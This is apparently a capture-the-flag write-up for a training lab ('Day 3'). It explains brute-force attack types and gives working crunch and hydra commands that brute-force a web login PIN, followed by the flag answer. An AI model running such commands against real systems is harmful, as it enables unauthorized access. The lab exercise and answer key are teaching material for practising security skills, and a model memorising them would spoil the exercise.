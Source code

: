 <h1>Data Science in Cybersecurity</h1>

<p>
Brute forcing is a common technique used in cybersecurity for gaining unauthorized access to systems or data by trying out numerous password combinations until the correct one is found. This method involves automated software or scripts that systematically generate and test different combinations of usernames and passwords until they find the right credentials to access a system, application, or network.

There are various types of brute force attacks:

<b>Password Cracking</b>: This involves trying all possible password combinations until the correct one is discovered. Attackers use dictionaries of common passwords or generate random character combinations to crack passwords.

<b>Credential Stuffing</b>: Attackers use previously leaked usernames and passwords from one service to attempt access to other services, exploiting the fact that many people reuse passwords across multiple accounts.

<b>Dictionary Attacks</b>: Instead of trying every possible combination, attackers use a list of commonly used passwords or words commonly found in dictionaries, reducing the search space and increasing the chances of success.

<b>Hybrid Brute Force Attack</b>: This combines dictionary words with variations of characters or numbers to increase the chances of cracking a password.

</p>

<h2>Solution</h2>
<ul>
<li>Start the Machine</li>
<li>Open terminal</li>
<li>Generate 3digits.txt<br>
  crunch 3 3 0123456789ABCDEF -o 3digits.txt
</li>
<li>Use hydra to start the attack <br>
  hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
</li>
<li>enter the password obtained and enter the control system</li>
<li>Press Unlock</li>
<li>Note the Flag at the Top</li>
</ul>

<h2>Day 3 — Tasks</h2>

<h4>
1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?  <br>
Ans: THM{pin-code-brute-force}
</h4>
